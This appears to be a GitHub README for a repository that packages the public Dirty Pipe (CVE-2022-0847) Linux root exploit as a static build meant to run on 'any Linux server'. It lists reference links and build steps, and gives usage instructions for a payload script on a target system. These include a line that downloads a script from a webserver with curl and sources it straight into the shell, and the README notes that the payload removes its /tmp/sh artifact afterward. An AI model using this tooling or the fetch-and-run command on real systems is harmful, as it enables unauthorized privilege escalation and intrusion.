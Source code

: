 # dirtypipe (CVE-2022-0847)

## References: 
- [ArsTechnica article](https://arstechnica.com/information-technology/2022/03/linux-has-been-bitten-by-its-most-high-severity-vulnerability-in-years/)
- [Max Kellermann's article and PoC](https://dirtypipe.cm4all.com/)
- [Public exploit](https://haxx.in/files/dirtypipez.c)

## Objective

Build a static exploit that can be run on any Linux server.

## How to build

```bash
./build.sh
```

## How to use

Once uploaded on the target system:

```bash
source payload.sh
```

If uploaded on a webserver:

```bash
source <(curl -s https://webserver/payload.sh)
```

## `dirtypipez.c`

The source on this repo is a bit modified (log message) as the `payload.sh` takes care of removing the `/tmp/sh` file.

